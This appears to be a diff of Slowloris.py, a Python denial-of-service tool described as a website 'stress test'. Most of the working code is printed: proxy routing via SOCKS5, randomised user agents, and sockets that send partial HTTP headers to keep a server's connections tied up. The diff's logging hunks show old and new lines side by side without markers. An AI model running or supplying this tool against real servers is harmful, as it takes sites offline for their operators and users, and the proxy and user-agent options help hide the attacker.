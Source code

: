 # Slowloris.py

@@ -1,184 +1,184 @@
#!/usr/bin/env python3
import argparse
import logging
import random
import socket
import sys
import time
parser = argparse.ArgumentParser(
    description="Slowloris, low bandwidth stress test tool for websites"
)
parser.add_argument("host", nargs="?", help="Host to perform stress test on")
parser.add_argument(
    "-p", "--port", default=80, help="Port of webserver, usually 80", type=int
)
parser.add_argument(
    "-s",
    "--sockets",
    default=150,
    help="Number of sockets to use in the test",
    type=int,
)
parser.add_argument(
    "-v",
    "--verbose",
    dest="verbose",
    action="store_true",
    help="Increases logging",
)
parser.add_argument(
    "-ua",
    "--randuseragents",
    dest="randuseragent",
    action="store_true",
    help="Randomizes user-agents with each request",
)
parser.add_argument(
    "-x",
    "--useproxy",
    dest="useproxy",
    action="store_true",
    help="Use a SOCKS5 proxy for connecting",
)
parser.add_argument(
    "--proxy-host", default="127.0.0.1", help="SOCKS5 proxy host"
)
parser.add_argument(
    "--proxy-port", default="8080", help="SOCKS5 proxy port", type=int
)
parser.add_argument(
    "--https",
    dest="https",
    action="store_true",
    help="Use HTTPS for the requests",
)
parser.add_argument(
    "--sleeptime",
    dest="sleeptime",
    default=15,
    type=int,
    help="Time to sleep between each header sent.",
)
parser.set_defaults(verbose=False)
parser.set_defaults(randuseragent=False)
parser.set_defaults(useproxy=False)
parser.set_defaults(https=False)
args = parser.parse_args()
if len(sys.argv) <= 1:
    parser.print_help()
    sys.exit(1)
if not args.host:
    print("Host required!")
    parser.print_help()
    sys.exit(1)
if args.useproxy:
    # Tries to import to external "socks" library
    # and monkey patches socket.socket to connect over
    # the proxy by default
    try:
        import socks
        socks.setdefaultproxy(
            socks.PROXY_TYPE_SOCKS5, args.proxy_host, args.proxy_port
        )
        socket.socket = socks.socksocket
        logging.info("Using SOCKS5 proxy for connecting...")
    except ImportError:
        logging.error("Socks Proxy Library Not Available!")
if args.verbose:
    logging.basicConfig(
        format="[%(asctime)s] %(message)s",
        datefmt="%d-%m-%Y %H:%M:%S",
        level=logging.DEBUG,
    )
else:
    logging.basicConfig(
        format="[%(asctime)s] %(message)s",
        datefmt="%d-%m-%Y %H:%M:%S",
        level=logging.INFO,
    )
def send_line(self, line):
    line = f"{line}\r\n"
    self.send(line.encode("utf-8"))
def send_header(self, name, value):
    self.send_line(f"{name}: {value}")
if args.https:
    logging.info("Importing ssl module")
    import ssl
    setattr(ssl.SSLSocket, "send_line", send_line)
    setattr(ssl.SSLSocket, "send_header", send_header)
list_of_sockets = []
user_agents = [
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.143 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.71 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/602.1.50 (KHTML, like Gecko) Version/10.0 Safari/602.1.50",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:49.0) Gecko/20100101 Firefox/49.0",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.143 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.71 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.71 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_1) AppleWebKit/602.2.14 (KHTML, like Gecko) Version/10.0.1 Safari/602.2.14",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12) AppleWebKit/602.1.50 (KHTML, like Gecko) Version/10.0 Safari/602.1.50",
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.79 Safari/537.36 Edge/14.14393",
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.143 Safari/537.36",
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.71 Safari/537.36",
    "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.143 Safari/537.36",
    "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.71 Safari/537.36",
    "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0",
    "Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.143 Safari/537.36",
    "Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.71 Safari/537.36",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.143 Safari/537.36",
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.71 Safari/537.36",
    "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0",
    "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko",
    "Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.0",
    "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.143 Safari/537.36",
    "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.143 Safari/537.36",
    "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:49.0) Gecko/20100101 Firefox/49.0",
]
setattr(socket.socket, "send_line", send_line)
setattr(socket.socket, "send_header", send_header)
def init_socket(ip: str):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(4)
    if args.https:
        ctx = ssl.create_default_context()
        ctx.check_hostname = False
        ctx.verify_mode = ssl.CERT_NONE
        s = ctx.wrap_socket(s, server_hostname=args.host)
    s.connect((ip, args.port))
    s.send_line(f"GET /?{random.randint(0, 2000)} HTTP/1.1")
    ua = user_agents[0]
    if args.randuseragent:
        ua = random.choice(user_agents)
    s.send_header("User-Agent", ua)
    s.send_header("Accept-language", "en-US,en,q=0.5")
    return s

def slowloris_iteration():
    logging.info("Sending keep-alive headers...")
    logging.info(f"Socket count: {len(list_of_sockets)}")
    logging.info("Socket count: %s", len(list_of_sockets))

    # Try to send a header line to each socket
    for s in list(list_of_sockets):
@@ -194,15 +194,15 @@ def slowloris_iteration():
    if diff <= 0:
        return

    logging.info(f"Creating {diff} new sockets...")
    logging.info("Creating %s new sockets...", diff)
    for _ in range(diff):
        try:
            s = init_socket(args.host)
            if not s:
                continue
            list_of_sockets.append(s)
        except socket.error as e:
            logging.debug(f"Failed to create new socket: {e}")
            logging.debug("Failed to create new socket: %s", e)
            break


@@ -228,7 +228,7 @@ def main():
            logging.info("Stopping Slowloris")
            break
        except Exception as e:
            logging.debug(f"Error in Slowloris iteration: {e}")
            logging.debug("Error in Slowloris iteration: %s", e)
        logging.debug("Sleeping for %d seconds", args.sleeptime)
        time.sleep(args.sleeptime)
